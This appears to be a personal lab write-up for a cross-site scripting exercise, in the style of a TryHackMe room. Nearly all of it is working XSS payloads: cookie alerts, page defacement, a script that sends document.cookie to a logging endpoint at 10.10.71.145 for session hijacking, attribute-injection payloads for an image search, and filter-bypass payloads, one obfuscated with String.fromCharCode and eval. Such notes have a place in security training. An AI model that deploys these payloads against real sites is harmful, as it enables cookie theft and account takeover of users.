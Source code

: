  <p>del</p>
 
<script>alert(document.cookie)</script>

<script>document.getElementById("thm-title").innerHTML="I am a hacker"</script>

for jack's cookie we have to get the directory where the files are stored

and from burp we can see there is a file logs

![[Pasted image 20210608120736.png]]

so payload

<script>document.location='http://10.10.71.145/log/'+document.cookie</script>

now navigate to /logs and get the cookie

![[Pasted image 20210608121303.png]]

change the cookie form storage and re-fresh

<script>alert("Hello")</script>

<script>alert(window.location.hostname)</script>


image search:    test" onmouseover="alert(document.cookie)"

it would show `Image not found` but hover and get the cookie


image search:  test" onmouseover="document.body.style.backgroundColor = 'red'" 

it would show `Image not found` but hover and get the colour change

filter bypass: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

challenge 1:
<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="alert('Hello')"></xss>


challenge 2:
 <img src="blah" onerror=confirm("Hello") />
 
challenge 3:
<object onerror=alert('Hello')>ON

	
challenge 4:
<object ONError=alert('Hello')>

<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="eval(String.fromCharCode(97,108,101,114,116,40,39,72,101,108,108,111,39,41))"></xss>

